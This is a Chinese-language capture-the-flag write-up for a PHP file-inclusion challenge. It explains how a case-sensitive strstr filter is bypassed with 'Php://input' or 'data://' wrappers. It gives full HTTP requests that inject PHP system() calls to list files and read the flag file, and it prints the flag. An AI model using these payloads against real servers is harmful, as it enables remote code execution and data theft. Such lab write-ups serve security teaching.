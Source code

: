 # Web_php_include

> 首先可看到这是通过传递hello和page参数来完成,从源码可看到对hello参数没要求,随便一个值就行,关键是page参数,不能使用php://协议,可使用Php://或者data://绕过

## 涉及函数

### include

> 从外部引入php文件并执行,如果执行不成功,就返回文件的源码

### strstr

> strstr(string,search,before_search),函数是区分大小写,用来查找search在string中是否存在,如果是,返回该字符串及后面剩余部分.


## PHP文件包含漏洞常用伪协议

```
file:// 访问本地文件系统
http:// 访问http(s）网址
ftp:// 访问ftp
php:// 访问各个输入/输出流
zlib:// 压缩流
data:// 数据
rar:// RAR压缩包
ogg:// 音频流
```

## filters类型

> String Filters: string.rot13、string.toupper、string.tolower、string.strip_tags

> Conversion Filters: convert.base64-encode & convert.base64-decode、convert.quoted-printable-encode & convert.quoted-printable-decode、convert.iconv.*

> Compression Filters: zlib.deflate、zlib.inflate、bzip2.compress和bzip2.decompress

> Encryption Filters: mcrypt.*和 mdecrypt.*

> [官方文档]https://www.php.net/manual/zh/filters.php

> [使用参考](https://blog.csdn.net/qq_44657899/article/details/109300335)

## filters支持编码

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
...
```

> [官方文档](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

## 思路分析

> 通过代码可以分析得到,是通过传递hello和page参数来完成,从源码可看到对hello参数没要求,随便一个值就行,关键是page参数,不能使用php://,代码会把php://替换为空,但是strstr区分大小写,可以使用Php://input绕过,或者使用data://伪协议.

## payload1

```
POST /?hello=1&page=Php://input HTTP/1.1
Host: 61.147.171.105:65108
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 20

<?php system("ls")?>

POST /?hello=1&page=Php://input HTTP/1.1
Host: 61.147.171.105:65108
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 40

<?php system("cat fl4gisisish3r3.php")?>
```

## payload2

```
GET /?hello=1&page=data://text/plain,%3C?php%20print_r(glob(%22*%22));%20?%3E HTTP/1.1
Host: 61.147.171.105:65108
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

GET /?hello=1&page=data://text/plain,%3C?php%20system(%22cat%20fl4gisisish3r3.php%22)?%3E HTTP/1.1
Host: 61.147.171.105:65108
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## flag

> ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}